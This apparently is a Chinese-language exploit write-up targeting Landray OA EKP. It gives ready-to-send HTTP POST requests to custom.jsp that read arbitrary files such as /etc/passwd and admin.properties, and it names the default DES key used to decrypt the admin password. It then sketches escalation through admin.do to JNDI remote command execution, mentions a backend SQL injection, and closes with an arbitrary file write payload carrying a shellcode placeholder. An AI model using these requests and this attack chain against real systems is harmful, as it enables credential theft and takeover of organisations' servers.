 ## 0x01-任意文件读取

   访问/sys/ui/extend/varkind/custom.jsp
 
 


POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}


配合任意文件读取漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 可利用 JNDI远程命令执行获取权限。

## 0x02 SSRF+jndi

   利用任意文件读取/WEB-INF/KmssConfig/admin.properties配置文件

POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

由此获得加密的password,蓝凌OA默认为DES加密，且有个默认密钥为 kmssAdminKey，可以拿着password在在线网站上尝试解密
地址  http://tool.chacuo.net/cryptdes/

![图片](https://user-images.githubusercontent.com/118274389/223748827-8fd0d2b2-6ca3-4083-92d2-6a815e25fa21.png)

## 0x03-EKP后台SQL注入

后台地址admin.do

## 0x04-任意文件写入漏洞1

var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]

